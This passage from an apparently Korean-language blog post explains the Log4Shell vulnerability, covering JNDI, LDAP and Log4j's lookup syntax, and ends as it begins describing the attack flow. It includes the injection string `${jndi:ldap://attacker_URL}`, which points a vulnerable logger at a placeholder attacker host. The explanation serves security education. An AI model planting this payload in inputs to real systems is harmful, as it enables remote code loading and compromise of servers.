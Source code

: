JNDI는 자바로 작성된 소프트웨어 클라이언트들에 name(이름)을 통해 자바 객체 형태의 리소스를 discover(검색)하고 look up(조회)하는 기능을 제공하는 Application Program Interface(API) 입니다. 선택된 구현에 따라 달라지지만 JNDI를 통해 조회된 정보들은 서버나 일반 파일 혹은 데이터베이스에 제공 될수 있습니다. 일반적으로 자바 어플리케이션을 외부 디릭터리 서비스에 연결하는데 됩니다.

JNDI를 이용하기 위해서는 JNDI 객체들과 함께 하나 이상의 서비스 프로바이더가 필요하며 본 취약점에서는 그 역할을 LDAP이 맡았습니다.

### LDAP

> Lightweight Directory Access Protocol

![OpenLDAP](https://raw.githubusercontent.com/Shane-Park/mdblog/main/news/log4shell.assets/intro_dctree.gif)

> https://www.openldap.org/doc/admin21/intro.html
>
> LDAP directory tree

경량 디렉터리 액세스 프로토콜은 TCP/IP 위에서 디렉터리 서비스를 조회하고 수정하는 응용 프로토콜 입니다. 

서울에서 김서방을 빨리 찾을 수 없는 것 처럼, RDBMS의 최대 단점 중 하나는 처리 속도인데요, 종종 그 문제를 보완하기 위해 사용됩니다.

LDAP은 원래 전화번호부를 기본으로 만들어 졌습니다. 그 성격은 자주 업데이트 되지 않으면서 검색 요청이 많이 필요한 부분에 적합 한 것입니다. 

특히, 인증을 위한 다른 서비스에 자주 사용되는데, 스프링 시큐리티에서는 자바 기반의 내장 OpenLDAP 서버를 활용 할 수 있습니다.

### log4j

Log4j 에서는 편리하게 사용하기 위해 ${prefix:name} 형식으로 java 객체를 볼 수 있게 하는 문법이 존재합니다. 예를 들어 ${java:version}을 입력하면 자바 버전을 볼 수 있습니다. 이런 문법이 로그가 기록 될 때도 사용이 가능했고, 결국 공격자가 로그에 기록되는 부분을 찾아 `${jndi:ldap://attacker_URL}` 와 같은 값을 추가하기만 하면 간단하게 취약점을 이용 할 수 있습니다.

기본적인 공격 흐름은 아래와 같습니다.
